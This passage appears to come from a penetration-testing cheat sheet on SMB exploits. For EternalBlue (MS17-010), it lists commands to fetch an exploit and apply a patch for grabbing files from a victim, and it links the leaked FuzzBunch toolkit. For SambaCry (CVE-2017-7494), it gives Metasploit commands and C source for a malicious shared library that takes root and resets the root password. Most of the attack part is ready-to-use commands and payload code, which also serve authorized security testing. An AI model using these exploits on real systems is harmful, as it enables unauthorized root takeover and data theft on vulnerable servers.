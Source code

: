 A patch for grabbing remote files from Victim:

```
$ git clone https://github.com/worawit/MS17-010.git && cd MS17-010
$ git checkout -b smb_get_file 83b3745
$ wget https://gist.github.com/snovvcrash/e910523a366844448e3a2b40685969e7/raw/e00b7b04aa5c96b0e5f21eae305448cf3c2fd4fa/zzz_smb_get_file.patch
$ git apply zzz_smb_get_file.patch
```



### FuzzBunch (Wine)

- [https://github.com/fuzzbunch/fuzzbunch](https://github.com/fuzzbunch/fuzzbunch)
- [https://0x00sec.org/t/porting-the-leaked-equation-group-eqgrp-fuzzbunch-tool-to-linux/1956](https://0x00sec.org/t/porting-the-leaked-equation-group-eqgrp-fuzzbunch-tool-to-linux/1956)
- [https://habr.com/ru/post/327490/](https://habr.com/ru/post/327490/)




## SambaCry

**CVE-2017-7494** (Samba 3.5.0 < 4.4.14/4.5.10/4.6.4)



### MSF

```
msf > use exploit/linux/samba/is_known_pipename
msf > set SMB::AlwaysEncrypt false
msf > set SMB::ProtocolVersion 1
msf > run
```



### Manually

* [https://github.com/opsxcq/exploit-CVE-2017-7494](https://github.com/opsxcq/exploit-CVE-2017-7494)
* [https://github.com/joxeankoret/CVE-2017-7494](https://github.com/joxeankoret/CVE-2017-7494)

Compile `.so` SUID shared library:

{% code title="pwn.c" %}
```c
// gcc -shared -fPIC -o pwn.so pwn.c

#include <stdio.h>
#include <stdlib.h>

static void pwn() __attribute__((constructor));

void pwn() {
	setresuid(0,0,0);
	system("echo 'root:Passw0rd!'|chpasswd");
}
```
{% endcode %}
